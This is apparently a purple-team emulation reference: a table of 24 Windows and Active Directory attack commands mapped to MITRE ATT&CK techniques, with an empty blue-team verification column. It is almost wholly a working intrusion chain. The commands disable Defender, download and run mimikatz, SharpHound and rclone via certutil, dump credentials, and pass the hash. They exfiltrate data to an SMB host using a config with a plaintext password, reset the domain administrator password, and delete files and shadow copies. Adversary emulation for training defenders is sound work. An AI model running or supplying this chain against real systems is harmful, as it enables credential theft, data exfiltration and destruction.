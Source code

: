 # Red Team Emulation Reference

## Part 1

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|1 | `xfreerdp3 /u:PurpleUser /p:SecurePwd123 /v:10.0.1.15 /cert:ignore +clipboard` | T1021.001, T1078|
|2 | `whoami /all systeminfo` | T1033, T1082, T1059.001<br>(PowerShell T1059.001 will not be mentioned after that every time it is used)|
|3 | `quser` | T1033, T1082|
|4 | `net localgroup administrators`| T1069.001|
|5 | `Get-Process \| Select -Unique ProcessName` | T1057|
|6 | `Get-MpComputerStatus` | ? ||
|7 | `Set-MpPreference -DisableRealtimeMonitoring 1`<br>`Set-MpPreference -DisableBehaviorMonitoring 1`<br>`Set-MpPreference -DisableScriptScanning 1`<br>`Set-MpPreference -DisableBlockAtFirstSeen 1` | T1562.001|
|8 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe` | T1105|
|9 | `C:\temp\m.exe`<br>`privilege::debug`<br>`sekurlsa::logonpasswords` | T1003.001|
|10 | `[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell` | T1550.002|
|11 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe` | T1105|
|12 | `C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\` | T1087.001, T1087.002, T1560, T1059.001, T1482, T1615, T1106, T1201, T1069.001, T1069.002, T1018, T1033|
|13 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|14 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` |?|
|15 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest` | T1048|

## Part 2

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|16 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll Import-Module C:\Temp\a.dll` | T1005|
|17 | `Add-ADGroupMember -Identity "ITSupport" -Members "billh"` | T1098.007|
|18 | `Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset` | T1098|
|19 | `xfreerdp3 /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard` | T1021.001, T1078|
|20 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|21 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` |?|
|22 | `Set-MpPreference -DisableRealtimeMonitoring 1` | T1562.001|
|23 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest` | T1048|
|24 | `rm C:\Users\Administrator\Documents\finance.db`<br>`vssadmin.exe delete shadows /all` | T1490|
